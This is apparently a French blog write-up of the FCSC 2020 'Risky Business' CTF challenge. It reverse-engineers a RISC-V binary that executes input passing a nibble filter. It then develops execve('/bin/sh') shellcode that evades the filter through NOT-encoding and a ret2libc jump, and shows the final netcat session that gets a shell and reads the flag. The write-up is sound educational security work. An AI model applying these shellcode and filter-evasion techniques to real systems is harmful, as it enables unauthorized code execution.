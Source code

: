 ```yaml
---
title: "[FR] Write-up FCSC 2020 : Risky Business"
date: 2020-05-04T18:00:00+02:00
draft: false
tags:
- CTF
- FCSC
- FCSC 2020
---
```


# I - Intro
Le challenge est composé d'un simple binaire ELF RISC-V.
```
$ file risky-business
risky-business: ELF 64-bit LSB shared object, UCB RISC-V, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-riscv64-lp64d.so.1, for GNU/Linux 4.15.0, BuildID[sha1]=..., not stripped
```
Le but est d'exploiter ce binaire de manière à obtenir un shell sur la machine l'exécutant. On peut interagir avec lui via une simple connexion TCP que l'on peut établir avec `netcat`.
```
nc challenges1.france-cybersecurity-challenge.fr 4004
```
À première vue le binaire semble accepter des données via l'entrée standard avant de s'arrêter.

# II - Rétro-ingénierie

Pour effectuer la rétro-ingénierie de ce binaire, j'ai utilisé *Ghidra*. Sa dernière version (v9.1.2) ne supporte pas l'architecture RISC-V, j'ai donc dû compiler une version plus récente depuis les sources disponibles sur la branche `master` du GitHub.

La décompilation faite par Ghidra est plutôt précise, après avoir renommé les variables correctement nous obtenons la fonction `main()` suivante :
```c
unsigned char main(){
  int input_buffer_len;
  unsigned char ret;
  byte c_2;
  int i;
  int j;
  int k;
  char input_buffer[72];
  long stk_check;
  byte c_1;

  stk_check = __stack_chk_guard;
  fgets(input_buffer,67,stdin);
  input_buffer_len = strlen(input_buffer);
  i = input_buffer_len + -1;
  j = input_buffer_len + -2;
  k = (input_buffer_len + -1) * 2;
  c_1 = (byte)input_buffer[input_buffer_len + -1] >> 4;
  while (-1 < k) {
    if ((k & 1) == 0) {
      c_2 = input_buffer[i] & 0xf;
      i = i + -1;
    }
    else {
      c_2 = (byte)input_buffer[j] >> 4;
      j = j + -1;
    }
    if ((((c_1 == 7) && (c_2 == 3)) || ((c_1 == 0 && (c_2 == 0)))) || ((c_1 == 0 && (c_2 == 10))))
    goto end;
    k = k - 1;
    c_1 = c_2;
  }
  (*(code *)input_buffer)(input_buffer);
end:
  ret = 0;
  if (stk_check != __stack_chk_guard) {
    ret = __stack_chk_fail();
  }
  gp = &__global_pointer$;
  return ret;
}
```

La fonction va donc lire une chaîne de caractères qui peut faire jusqu'à 67 octets sur l'entrée standard, un test va être effectué sur celle-ci, si elle passe le test, elle est interprétée comme du code et est exécutée, sinon le programme se termine.

Le test va lire la chaîne à partir de la fin, la séparer en section de 4 bits et vérifier que certains groupes prédéfinis de 4 bits ne se suivent pas.

On peut interpréter cela plus simplement : dans une représentation hexadécimale de la chaîne, les chiffres hexadécimaux suivants ne peuvent pas se suivre : 0x7 et 0x3; 0x0 et 0x0; 0x0 et 0xA.

# III - Écriture de la base du shellcode

Cet article de blog décrit comment écrire un shellcode pour l'architecture RISC-V : [https://thomask.sdf.org/blog/2018/08/25/basic-shellcode-in-riscv-linux.html](https://thomask.sdf.org/blog/2018/08/25/basic-shellcode-in-riscv-linux.html). Le but est donc de charger les arguments d'un syscall dans les registres `a0` à `a6` et le numéro du syscall dans le registre `a7` avant d'utiliser l'instruction `ecall` pour l'effectuer. Le syscall à appeler est le traditionnel `execve` (syscall n° 221 sous Linux en RISC-V) nous permettant d'obtenir un shell en exécutant `/bin/sh`.

```asm
addi	a0,s0,-96 + 20 # le shellcode est chargé sur la stack à s0-96 : s0-96+20 pointe donc sur le dword plus
                       # bas
slti	a1,zero,-1
slti	a2,zero,-1
li	a7,221
ecall
.dword 0x68732f2f6e69622f # représente la chaîne ascii `/bin//sh`
```

Ce shellcode de base est fonctionnel mais ne respecte pas les contraintes imposées par le binaire. La première suite interdite est la suite 0x00 dans l'instruction `li`. On peut la remplacer par une instruction `addi` en effectuant une addition avec le registre `a1` précédemment initialisé à 0.
```asm
addi	a0,s0,-96 + 20
slti	a1,zero,-1
slti	a2,zero,-1
addi	a7,a1,221
ecall
.dword 0x68732f2f6e69622f
```

La suite interdite suivante est présente dans la chaîne `/bin//sh`. Pour y remédier, on sépare le `dword` en deux `word` et l'on `NOT` celui comportant la suite interdite. Il faut juste adapter le shellcode pour *"réparer"* le `word` avant d'effectuer le syscall.
```asm
addi a3, s0, -96 + 28
lw   a4, 4(a3)
not  a4, a4
sw   a4, 4(a3)
addi a0, s0, -96 + 28
slti a1, zero, -1
slti a2, zero, -1
ecall
.word 0x6e69622f
.word 0x978cd0d0
```
Il est à noter que le shellcode est assemblé avec l'option `-march riscv64ic` permettant d'ajouter l'extension `C` du standard RISC-V. Celle-ci permet d'avoir des instructions compressées de 2 octets au lieu de 4. Les instructions `lw` et `sw` du shellcode précédent ne font donc que 2 octets. Cette compression permet, en plus d'économiser de l'espace, de ne pas avoir d'octets nuls dans le shellcode.

L'instruction m'ayant posé le plus de problème est `ecall`. Celle-ci est indispensable pour pouvoir effectuer le syscall mais n'existe que sous une seule forme : `0x00000073`, elle contient donc 2 suites de demi octets interdites, 0x00 et 0x73. J'ai d'abord voulu essayer de mettre en place du *self-modifying code* en `NOT`ant l'instruction et en la réparant avant de l'exécuter. Cependant l'émulateur RISC-V de QEMU n'est pas encore au point et comme celui-ci *"traduit"* les instructions RISC-V en instructions x86, la traduction n'est pas re-effectuée après que l'instruction soit restaurée, provoquant un crash du programme.

---

**EDIT : 2024-10-14** : QEMU se comportait "normalement" en 2020, il faut utiliser l'instruction `FENCE.I` pour s'assurer que l'écriture de la nouvelle instruction se fait avant sa lecture.

---

# IV - `ret2libc` pour effectuer le syscall

La solution que j'ai choisie pour effectuer le syscall est donc un `ret2libc`. Le but est de trouver une instruction `ecall` dans la libc et de `jmp` dessus. Comme le `Dockerfile` pour déployer le challenge est fourni, nous pouvons utiliser exactement la même libc que celle du serveur où s'exécutera le shellcode final.

Bien que l'ASLR soit activée, QEMU ne semble pas en avoir une très bonne (ou pas du tout), en effet après de multiples tests il semble que l'adresse de base de la libc soit toujours la même : `0x4000827000`. Pour trouver cette adresse de base, il suffit de déboguer le programme avec `gdb` et de lire l'adresse de `scanf` puis de la soustraire avec son adresse dans `libc.so`. Nous n'avons qu'à `grep`er la sortie de `objdump -D` sur la libc pour trouver un `ecall`.

Le `ecall` choisi est à l'adresse `0xb68` de la libc et peut donc être trouvé à l'adresse `0x4000827b68` dans l'espace d'adresse de notre binaire. Comme l'adresse contient beaucoup de suite de demi octets interdites, celle-ci est `NOT`ée avant d'être utilisée.

Voici donc le shellcode final :
```asm
addi a3, s0, -96+0x30
lw   a4, 12(a3)
not  a4, a4
sw   a4, 12(a3)
addi a0, s0, -96+0x38
slti a1, zero, -1
slti a2, zero, -1
addi a7, a1, 221
lw   a4, 0(a3)
lw   a5, 4(a3)
not  a4, a4
not  a5, a5
slli a5, a5, 32
or   a4, a5, a4
jr   -4(a4)
.word 0xff7d8493
.word 0xffffffbf
.word 0x6e69622f
.word 0x978cd0d0
```

Comme l'instruction `jr` nécessite un offset par rapport à l'adresse contenue dans le registre, celui-ci ne pouvait donc pas être 0 sous peine de comporter beaucoup de suites de demi octets interdites. Le saut se fait donc avec un offset de -4 et l'adresse a été adaptée en conséquence.

# V - Exploitation finale

Après avoir assemblé le shellcode et l'avoir testé en local, nous pouvons l'exécuter sur le serveur.
```sh
$ cat shellcode.bin - | nc -v challenges1.france-cybersecurity-challenge.fr 4004
Warning: inverse host lookup failed for 51.68.117.85: Unknown host
challenges1.france-cybersecurity-challenge.fr [51.68.117.85] 4004 (?) open
id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
ls
flag
risky-business
run.sh
cat flag
FCSC{d79704401bf7c58ca46f3711a9a8c8207d0c4ce7d80fd0dc41df6d5e44b3ddaf}
```
